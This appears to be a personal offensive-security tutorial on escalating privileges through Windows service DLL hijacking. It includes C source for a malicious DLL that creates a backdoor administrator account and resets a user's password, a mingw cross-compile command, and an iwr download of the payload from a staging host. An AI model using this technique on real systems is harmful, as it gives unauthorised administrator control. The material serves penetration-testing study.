 ```yaml
---
layout: post
title: Windows Service DLL Hijacking
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "dll"]
---
```


#### dll hijacking

if we are unable to replace the binary bc of a permission issue we may be able to work with its dlls

first let's find the running processes

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

we can run procmon to display the loaded dlls of the binary we are interested in, however, we need admin creds to run procmon

depending on the application, if necessary we can copy the binary to our local system to execute in a different administrator environment to see which dlls we have available to us

in Procmon -> Filter -> Filter -> Proces Name is -> proc 'include'

to get our process to register in procmon

    PS > Restart-Service proc

looking at the procmon results we see a lot of name not found for a specific dll

with the missing dll we can attempt to write a dll to the dll search order path

    1. The directory from which the application loaded.
    2. The system directory.
    3. The 16-bit system directory.
    4. The Windows directory. 
    5. The current directory.
    6. The directories that are listed in the PATH environment variable.

dll main can be optional and executed when processes or threads attach to and execute the dll - 

if a dll does not contain a dll main function then that dll only provides resources

    PS > $env:path

checking the environment path 

```cpp
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
above is a MS example of a DLL that demonstrates the four cases in which a dll is used

since our example is trying to load a dll we will use that case

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
  	    i = system ("net user daveadmin password123!"); //to change a current users password.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

now we cross compile our cpp code to the name of the dll we want to use

    $ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

copy the binary over to the correct directory

    PS C:\Users\me\dlldirectory > iwr -uri http://192.168.1.1/myDLL.dll -Outfile myDLL.dll

restart the service 

    PS > Restart-Service BetaService